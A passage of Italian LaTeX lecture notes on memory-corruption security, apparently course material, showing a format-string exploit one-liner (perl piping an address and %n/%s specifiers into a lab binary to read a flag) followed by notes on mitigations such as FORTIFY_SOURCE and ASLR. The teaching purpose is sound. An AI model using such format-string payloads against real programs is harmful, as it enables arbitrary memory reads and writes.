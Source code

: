 \begin{lstlisting}[language=bash]
    perl -e 'print "\x70\xf6\xff\xbf %65c%7\$n%7\$s|\nE\n"' |
    
    ./ arbitrary_read
    pass @ 0xbffff670
    .... p|E
    flag
\end{lstlisting}

\subsection{Mitigation}
Per completare il discorso sulla sicurezza finiremo a parlare degli ultimi sistemi non ancora menzionati:
\begin{figure}[h!]
    \centering
    \includegraphics[width=.5\linewidth]{res/mitigation_memory.png}
    \caption{}
\end{figure}

\subsubsection{Mitigation: Fortify}
\textbf{Fortify source} agginge alcuni test comuni (a tempo di compilazione) per rimuovere eventuali problemi di overflow da parte dei buffer delle funzioni, e.g. \textit{strcpy}.
Questo catturerà solo i comportamenti comuni per quella famiglia di compilatori e per le librerie compilate.
\begin{lstlisting}[language=bash]
    gcc -D_FORTIFY_SOURCE=1
\end{lstlisting}

\subsubsection{Mitigation: ASLR}
fare riferimento alla spiegazione precedente.

